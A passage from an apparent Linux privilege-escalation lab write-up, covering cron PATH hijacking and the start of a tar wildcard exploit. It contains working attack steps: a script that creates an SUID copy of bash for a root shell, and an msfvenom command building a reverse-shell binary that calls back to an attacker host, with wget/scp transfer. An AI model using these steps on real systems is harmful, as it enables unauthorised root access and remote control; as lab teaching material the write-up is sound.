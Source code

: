 ### What is the value of the PATH variable in /etc/crontab?

---

```bash
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Note that the PATH variable starts with **/home/user** which is our user's home directory.

Create a file called **overwrite.sh** in your home directory with the following contents:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```bash
chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run

```bash
user@debian:~$ /tmp/rootbash -p
rootbash-4.1#
```

# Task 10 Cron Jobs - Wildcards

---

View the contents of the other cron job script:

```bash
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp** or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

```bash
chmod +x /home/user/shell.elf
```
